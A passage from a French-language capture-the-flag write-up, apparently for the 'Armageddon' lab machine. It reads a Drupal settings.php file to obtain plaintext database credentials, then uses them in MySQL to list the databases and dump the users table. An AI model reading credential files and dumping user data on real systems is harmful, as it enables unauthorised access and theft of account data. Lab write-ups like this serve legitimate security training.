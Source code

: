 > cat /html/sites/default/settings.php

```
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

Connectons-nous à la base de données mysql, puis regardons ce qu'elle possède.

> mysql -u drupaluser -p
>
> show databases;
>

```
Database
information_schema
drupal
mysql
performance_schema
```

Afficher les tables de la base de données `drupal`.

> show tables;

```
[...]
url_alias
users
users_roles
[...]
```

Affichons les données de la tables `users`.

> select * from users;

![Screenshot_20210405_200526](Armageddon.assets/Screenshot_20210405_200526.png)
